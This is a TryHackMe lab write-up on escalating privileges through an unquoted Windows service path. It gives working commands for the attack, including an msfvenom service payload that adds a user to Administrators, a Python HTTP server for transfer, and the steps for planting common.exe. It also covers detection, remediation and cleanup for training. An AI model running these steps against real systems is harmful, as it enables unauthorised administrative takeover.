




# Service Escalation - Unquoted Service Paths

> **Platform:** TryHackMe  
> **Room:** Windows PrivEsc Arena  
> **Task:** 8  
> **Operating System:** Windows 7 Professional  
> **Technique:** Unquoted Windows Service Path  
> **Initial Context:** Standard local user  
> **Service Name:** `unquotedsvc`  
> **Service Account:** `LocalSystem`  
> **Result:** Local user added to the Administrators group  
> **MITRE ATT&CK:** T1574.009, Path Interception by Unquoted Path  
> **CWE:** CWE-428, Unquoted Search Path or Element  

## Disclaimer

This write-up documents an authorised TryHackMe training environment.

The activity was performed only against an intentionally vulnerable laboratory machine. Target addresses, credentials, flags, and sensitive values have been removed or sanitised. The generated executable used in the laboratory is not included in this repository.

## Executive Summary

The Windows host contained a service named:

```text
unquotedsvc
```

The service configuration was inspected using:

```cmd
sc qc unquotedsvc
```

The service used the following executable path:

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

The path contained multiple spaces but was not enclosed in quotation marks.

The service was also configured to run as:

```text
LocalSystem
```

When Windows processes an unquoted executable path containing spaces, it may interpret portions of the path as separate executable candidates.

For this service path, one of the candidate executable locations was:

```text
C:\Program Files\Unquoted Path Service\Common.exe
```

The laboratory allowed the low privileged user to place an executable in that location.

A service compatible executable named `common.exe` was generated with `msfvenom`. Its embedded command added the local `user` account to the Administrators group.

After `common.exe` was placed in:

```text
C:\Program Files\Unquoted Path Service
```

the vulnerable service was started.

Windows selected `common.exe` before reaching the legitimate service executable. Because the service ran as `LocalSystem`, the planted executable inherited the privileged service context and added `user` to the local Administrators group.

## Attack Path

```text
Query the unquotedsvc configuration
                    ↓
Identify an executable path containing spaces
                    ↓
Confirm that the path is not enclosed in quotation marks
                    ↓
Confirm that the service runs as LocalSystem
                    ↓
Determine the executable names Windows may test
                    ↓
Identify Common.exe as an earlier candidate
                    ↓
Generate a service compatible executable named common.exe
                    ↓
Place common.exe in the vulnerable parent directory
                    ↓
Confirm that user is not initially an Administrator
                    ↓
Start unquotedsvc
                    ↓
Windows resolves Common.exe before the intended executable
                    ↓
The planted executable runs as LocalSystem
                    ↓
user is added to the Administrators group
```

# 1. Understanding Windows Service Paths

Windows services are managed by the Service Control Manager.

Each service has configuration properties that determine how and when it operates.

Important properties include:

| Property | Purpose |
|---|---|
| `SERVICE_NAME` | Internal name used to manage the service |
| `TYPE` | Defines the service implementation type |
| `START_TYPE` | Defines how the service is started |
| `ERROR_CONTROL` | Defines how startup failures are handled |
| `BINARY_PATH_NAME` | Specifies the executable or command launched for the service |
| `DISPLAY_NAME` | Human readable name displayed by Windows |
| `SERVICE_START_NAME` | Identifies the account used to run the service |

The security sensitive property in this task was:

```text
BINARY_PATH_NAME
```

This value controls which executable the Service Control Manager attempts to launch when the service starts.

# 2. Detecting the Unquoted Service Path

The service configuration was queried with:

```cmd
sc qc unquotedsvc
```



The relevant output was:

```text
SERVICE_NAME: unquotedsvc

TYPE               : 10  WIN32_OWN_PROCESS
START_TYPE         : 3   DEMAND_START
ERROR_CONTROL      : 1   NORMAL
BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
DISPLAY_NAME       : Unquoted Path Service
SERVICE_START_NAME : LocalSystem
```

## Command explanation

```cmd
sc
```

Runs the Windows Service Controller command line utility.

```cmd
qc
```

Means query configuration.

It displays the stored configuration of a Windows service.

```text
unquotedsvc
```

Is the internal service name being queried.

The command is read only and does not change the service configuration.

# 3. Interpreting BINARY_PATH_NAME

The configured binary path was:

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

The path contained several spaces.

However, it was not enclosed in quotation marks.

A properly quoted value would resemble:

```text
"C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe"
```

Without quotation marks, Windows may be unable to determine unambiguously where the executable name ends and any potential arguments begin.

The vulnerable value was therefore:

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

instead of:

```text
"C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe"
```

# 4. How Windows Parses the Unquoted Path

When Windows receives an unquoted command line containing spaces, it may test executable names at the whitespace boundaries.

For this path:

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

Windows may test candidates resembling the following sequence:

```text
C:\Program.exe
```

```text
C:\Program Files\Unquoted.exe
```

```text
C:\Program Files\Unquoted Path.exe
```

```text
C:\Program Files\Unquoted Path Service\Common.exe
```

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

The last path is the legitimate service executable.

The exploitable candidate used in this laboratory was:

```text
C:\Program Files\Unquoted Path Service\Common.exe
```

This explains both the filename:

```text
common.exe
```

and the directory in which it was placed:

```text
C:\Program Files\Unquoted Path Service
```

The word `Common` was not selected arbitrarily.

It came from the next component of the legitimate path:

```text
Common Files
```

Because the path was unquoted, Windows treated `Common` as a possible executable name and appended the `.exe` extension.

# 5. Why the Path Alone Was Not Sufficient

An unquoted path containing spaces represents a potential weakness, but it is not automatically exploitable.

Successful exploitation also requires a writable candidate location.

The current user must be able to create one of the executable candidates tested before the legitimate binary.

In this laboratory, the user could create:

```text
C:\Program Files\Unquoted Path Service\Common.exe
```

A professional assessment should verify this permission explicitly with:

```cmd
icacls "C:\Program Files\Unquoted Path Service"
```

The important question is:

```text
Can the current low privileged user create or replace Common.exe in this directory?
```

The attack would not work if the user could identify the unquoted path but could not write to any earlier candidate location.

# 6. Understanding the Service Account

The `sc qc` output showed:

```text
SERVICE_START_NAME : LocalSystem
```

`LocalSystem` is a highly privileged built in Windows service account.

A process launched by a service running as `LocalSystem` normally receives extensive local system privileges.

The vulnerable trust relationship was:

```text
Low privileged user controls an earlier executable candidate
                    ↓
Service Control Manager starts a LocalSystem service
                    ↓
Windows selects the attacker controlled executable
                    ↓
The executable inherits the LocalSystem context
```

If the service ran under the same standard account as the attacker, intercepting the path would not normally provide a meaningful privilege increase.

# 7. Establishing the Initial Privilege State

Before starting the modified execution path, the local Administrators group should be checked:

```cmd
net localgroup administrators
```

The initial output in the laboratory contained:

```text
Administrator
TCM
```

The local account:

```text
user
```

was not listed.

This established the pre exploitation state and demonstrated that the account was not already a member of the local Administrators group.

# 8. Generating the Service Executable

On Kali, the following command was used:

```bash
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```



The command generated:

```text
common.exe
```

## Command explanation

```bash
msfvenom
```

Runs the Metasploit payload generation utility.

```bash
-p windows/exec
```

Selects a Windows command execution payload.

Unlike a reverse shell payload, `windows/exec` runs the embedded command locally and does not require a Metasploit handler.

```bash
CMD='net localgroup administrators user /add'
```

Defines the command that will run when the payload executes.

```bash
-f exe-service
```

Generates the output as a Windows service compatible executable.

This is important because the file will be launched by the Service Control Manager.

```bash
-o common.exe
```

Saves the generated payload as:

```text
common.exe
```

The filename was chosen to match the executable candidate created by the unquoted path parsing.

# 9. Understanding the Embedded Command

The payload executed:

```cmd
net localgroup administrators user /add
```

The command components were:

| Component | Meaning |
|---|---|
| `net` | Runs the Windows network and account administration utility |
| `localgroup` | Selects local group management |
| `administrators` | Specifies the local Administrators group |
| `user` | Specifies the local account being modified |
| `/add` | Adds the account to the group |

The intended operation was:

```text
Add the local user account to the local Administrators group
```

The command could succeed only if the process executing it had sufficient local privileges.

# 10. Why No Metasploit Handler Was Required

This task used:

```text
windows/exec
```

The payload executed a local command and then completed.

It did not contain:

```text
windows/meterpreter/reverse_tcp
```

and did not attempt to connect back to Kali.

Therefore, the following were not required:

```text
exploit/multi/handler
LHOST
LPORT
sessions
getuid
```

The success condition was verified locally through the Administrators group membership rather than through a reverse session.

# 11. Transferring common.exe to Windows

The generated executable was hosted from Kali using a temporary HTTP server.

From the directory containing `common.exe`, the following command can be used:

```bash
python3 -m http.server 80
```

The Windows machine can then access:

```text
http://<KALI_IP>/
```

The payload was downloaded and saved in:

```text
C:\Program Files\Unquoted Path Service
```

Its final path was:

```text
C:\Program Files\Unquoted Path Service\common.exe
```



The exact location was essential.

The payload would not intercept the service if it were saved as:

```text
C:\Temp\common.exe
```

or:

```text
C:\Program Files\Unquoted Path Service\Common Files\common.exe
```

The executable had to exist at the candidate path tested by Windows:

```text
C:\Program Files\Unquoted Path Service\Common.exe
```

Windows filenames are normally case insensitive, so `common.exe` and `Common.exe` resolve to the same filename in the standard Windows file system configuration.

# 12. Starting the Vulnerable Service

The vulnerable service was started using:

```cmd
sc start unquotedsvc
```

The Service Control Manager read the configured binary path:

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

Because the path lacked quotation marks, Windows attempted to resolve executable candidates at the spaces.

When Windows reached:

```text
C:\Program Files\Unquoted Path Service\Common.exe
```

the file now existed.

Windows therefore launched the planted executable instead of continuing to:

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

# 13. Verifying the Privilege Escalation

After starting the service, Administrators membership was checked again:

```cmd
net localgroup administrators
```

The final output included:

```text
Administrator
TCM
user
```



The appearance of:

```text
user
```

confirmed that `common.exe` executed with enough privilege to modify the local Administrators group.

The privilege transition was:

```text
Standard local user
                    ↓
Member of the local Administrators group
```

Windows normally creates a user access token during logon.

The existing user session may therefore continue using the token created before the group membership changed. The user should normally log off and log back on before expecting the new Administrators membership to appear in a newly created access token.

# 14. What Happened Behind the Scenes

The complete internal sequence was:

```text
The user queries the unquotedsvc configuration
                    ↓
BINARY_PATH_NAME contains spaces and no enclosing quotes
                    ↓
SERVICE_START_NAME is LocalSystem
                    ↓
The user creates common.exe
                    ↓
common.exe is placed at:
C:\Program Files\Unquoted Path Service\Common.exe
                    ↓
The user requests that unquotedsvc start
                    ↓
The Service Control Manager reads the unquoted path
                    ↓
Windows tests executable candidates at whitespace boundaries
                    ↓
C:\Program.exe is not found
                    ↓
C:\Program Files\Unquoted.exe is not found
                    ↓
C:\Program Files\Unquoted Path.exe is not found
                    ↓
C:\Program Files\Unquoted Path Service\Common.exe is found
                    ↓
Windows launches common.exe
                    ↓
The process inherits the LocalSystem service context
                    ↓
The embedded net localgroup command executes
                    ↓
user is added to the Administrators group
```

The legitimate service executable did not need to be overwritten.

The service Registry path did not need to be modified.

The service DACL did not need to be changed.

The attack intercepted Windows path resolution before the intended executable was reached.

# 15. Difference From Previous Service Tasks

Several Windows PrivEsc Arena tasks involve Windows services, but each targets a different weakness.

| Task | Vulnerable Resource | Exploitation Method |
|---:|---|---|
| 3 | Service Registry key | Change the Registry `ImagePath` |
| 4 | Service executable file | Replace the legitimate service executable |
| 6 | DLL loading behavior | Plant a missing DLL in a searched directory |
| 7 | Service DACL | Change the service `binPath` with `sc config` |
| 8 | Unquoted service path | Place an executable at an earlier path candidate |

In Task 8, the configured service path remained unchanged:

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

The attacker instead created:

```text
C:\Program Files\Unquoted Path Service\Common.exe
```

Windows selected the planted executable because of the ambiguous unquoted path.

# 16. Conditions Required for Exploitation

Successful exploitation required all the following conditions:

| Requirement | Laboratory condition |
|---|---|
| The service path contained spaces | Yes |
| The executable path lacked enclosing quotation marks | Yes |
| An earlier candidate directory was writable | Yes |
| The candidate executable did not already exist | Yes |
| The attacker knew the expected candidate name | `common.exe` |
| The service ran with greater privileges | `LocalSystem` |
| The service could be started or triggered | `sc start unquotedsvc` succeeded |
| The generated executable was service compatible | `exe-service` format |
| Security controls did not block the executable | Payload executed successfully |

An unquoted service path without a writable candidate location is not sufficient for exploitation.

A writable candidate location without a privileged service also does not create privilege escalation.

# 17. Why common.exe Was Selected

The legitimate path contained:

```text
...\Unquoted Path Service\Common Files\...
```

At the space between:

```text
Common
```

and:

```text
Files
```

Windows could interpret:

```text
C:\Program Files\Unquoted Path Service\Common
```

as the executable portion of the command line.

Windows then considered the `.exe` extension, producing:

```text
C:\Program Files\Unquoted Path Service\Common.exe
```

This is why the payload was named:

```text
common.exe
```

The filename was derived directly from the vulnerable path resolution.

# 18. Security Classification

| Classification | Value |
|---|---|
| Vulnerability | Unquoted Windows Service Path |
| Attack type | Executable path interception |
| Impact | Local privilege escalation |
| MITRE ATT&CK | T1574.009, Path Interception by Unquoted Path |
| CWE | CWE-428, Unquoted Search Path or Element |
| Privileged identity | `LocalSystem` |
| Planted executable | `common.exe` |

MITRE ATT&CK classifies this behavior as path interception through an unquoted path.

The technique can support privilege escalation when the intercepted executable is launched by a more privileged process.

# 19. Detection Opportunities

Defenders should inspect Windows services for executable paths that contain spaces but are not enclosed in quotation marks.

Important detection opportunities include:

| Detection area | Suspicious evidence |
|---|---|
| Service configuration | Unquoted `BINARY_PATH_NAME` containing spaces |
| File creation | New executable created at a partial path candidate |
| Process creation | `Common.exe` launched instead of the expected binary |
| Service activity | Service start immediately after candidate file creation |
| Account management | `net localgroup administrators user /add` |
| Group membership | Standard user added to local Administrators |
| File reputation | Unsigned executable created under a service directory |
| Endpoint monitoring | Service launches an unexpected executable |
| Configuration baseline | Service path differs from approved quoting standards |

A suspicious sequence would be:

```text
Executable created at a partial service path
                    ↓
The associated service is started
                    ↓
The partial path executable runs as LocalSystem
                    ↓
Local Administrators membership changes
```

# 20. Remediation

The primary remediation is to enclose the complete executable path in quotation marks.

The vulnerable path:

```text
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

should be stored as:

```text
"C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe"
```

This clearly identifies the complete executable path and prevents Windows from treating partial path components as executable candidates.

Additional remediation actions include:

| Action | Purpose |
|---|---|
| Quote every service path containing spaces | Remove path ambiguity |
| Restrict write access to service directories | Prevent candidate executable creation |
| Remove `common.exe` and other unauthorised files | Eliminate the planted payload |
| Audit all non Microsoft services | Identify similar weaknesses |
| Review service accounts | Reduce the privilege available to compromised services |
| Apply least privilege to service directories | Prevent standard users from writing executable content |
| Use application control | Block unauthorised executables |
| Monitor service process creation | Detect unexpected binary selection |
| Maintain a service configuration baseline | Identify unsafe or modified configurations |
| Audit Administrators membership | Detect unauthorised privilege changes |

Quoting the service path is necessary, but directory permissions should also be corrected.

A properly quoted path prevents this specific parsing attack, while secure directory ACLs prevent users from planting executables in service related locations.

# 21. Laboratory Cleanup

Stop the service if it remains active:

```cmd
sc stop unquotedsvc
```

Remove the planted executable:

```cmd
del "C:\Program Files\Unquoted Path Service\common.exe"
```

Remove the unauthorised Administrators membership:

```cmd
net localgroup administrators user /delete
```

Verify that the account was removed:

```cmd
net localgroup administrators
```

Unlike Task 7, the service `binPath` was not changed during exploitation.

Therefore, the original `BINARY_PATH_NAME` does not need to be restored unless it was separately modified.

In a disposable TryHackMe environment, resetting or terminating the machine also restores the intended laboratory state.

# 22. Lessons Learned

The presence of spaces in a Windows service path is not itself a vulnerability.

The vulnerability requires:

```text
An unquoted path
        +
A writable earlier candidate location
        +
A privileged service account
        +
A method of triggering the service
```

The most important assessment questions are:

| Question | Purpose |
|---|---|
| Does the service path contain spaces? | Identifies possible ambiguity |
| Is the complete executable path quoted? | Determines whether parsing is controlled |
| Which executable candidates will Windows test? | Identifies interception locations |
| Can the current user write to any candidate directory? | Determines exploitability |
| Which account runs the service? | Determines security impact |
| Can the current user start or restart the service? | Determines whether execution can be triggered |
| Is the payload compatible with service execution? | Determines whether the planted file can run correctly |

The central lesson is:

> A privileged Windows service becomes vulnerable when its executable path is unquoted and an unprivileged user can create an earlier executable candidate.

## Tools Used

| Tool | Purpose |
|---|---|
| `sc qc` | Display the service configuration |
| `icacls` | Optionally verify candidate directory permissions |
| `msfvenom` | Generate the service compatible executable |
| Python HTTP Server | Transfer `common.exe` to Windows |
| `sc start` | Trigger the vulnerable service |
| `net localgroup` | Verify the Administrators membership change |

## Evidence Summary

| Screenshot | Finding |
|---:|---|
| 01 | The service path contained spaces without enclosing quotation marks and ran as `LocalSystem` |
| 02 | A service compatible command payload was generated as `common.exe` |
| 03 | `common.exe` was placed at the earlier path candidate |
| 04 | Starting the service caused `user` to appear in the Administrators group |

## Additional Practice

The TryHackMe Steel Mountain room contains additional Windows service privilege escalation practice:

[TryHackMe Steel Mountain](https://tryhackme.com/room/steelmountain)

## References

[Microsoft Learn, sc qc](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc742055%28v%3Dws.11%29)

[Microsoft Learn, CreateServiceW](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicew)

[Microsoft Learn, CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)

[MITRE ATT&CK T1574.009, Path Interception by Unquoted Path](https://attack.mitre.org/techniques/T1574/009/)

[CWE-428, Unquoted Search Path or Element](https://cwe.mitre.org/data/definitions/428.html)
